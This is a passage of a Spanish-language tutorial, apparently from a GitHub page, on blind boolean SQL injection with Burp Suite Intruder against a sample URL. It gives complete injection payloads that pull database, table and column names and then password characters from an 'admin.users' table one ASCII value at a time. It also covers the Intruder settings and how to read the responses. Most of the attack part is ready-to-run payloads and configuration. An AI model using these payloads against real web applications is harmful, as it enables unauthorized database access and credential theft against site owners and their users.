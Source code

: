 http://victima.com/product.php?id=1

Y envíala al **Intruder** (`Right-click > Send to Intruder`).

---

### 2. Configura los payloads

#### Positions tab

En el parámetro `id`, deja solo un marcador donde irá el valor ASCII.

Para extraer **nombres de bases de datos**, por ejemplo:

    id=1' AND ASCII(SUBSTRING((SELECT schema_name FROM information_schema.schemata LIMIT 0,1),1,1))=§X§ -- -

Para extraer **nombres de tablas** de la base `admin`:

    id=1' AND ASCII(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema='admin' LIMIT 0,1),1,1))=§X§ -- -

Para extraer **nombres de columnas** de la tabla `users` en la base `admin`:

    id=1' AND ASCII(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_schema='admin' AND table_name='users' LIMIT 0,1),1,1))=§X§ -- -

Para extraer **datos específicos de una columna**, por ejemplo la columna `password` de la tabla `users` en la base `admin` (fila 0, primer carácter):

    id=1' AND ASCII(SUBSTRING((SELECT password FROM admin.users LIMIT 0,1),1,1))=§X§ -- -

(`§X§` será el payload que variará, del 32 al 126)

---

#### Payloads tab

- **Payload type**: Numbers  
- **From**: 32  
- **To**: 126  
- **Step**: 1  
- Opcional: Marca "Add encoding" si el servidor escapa caracteres  

---

### 3. Iniciar ataque

Haz clic en **Start Attack**.

Burp enviará la misma petición con valores de ASCII del 32 al 126 para la letra 1 (`pos=1`) del elemento (base, tabla, columna o dato) seleccionado.

---

## 🔍 Cómo interpretar resultados

En la tabla de resultados, mira la columna **Length**, **Status** o el contenido de la respuesta.

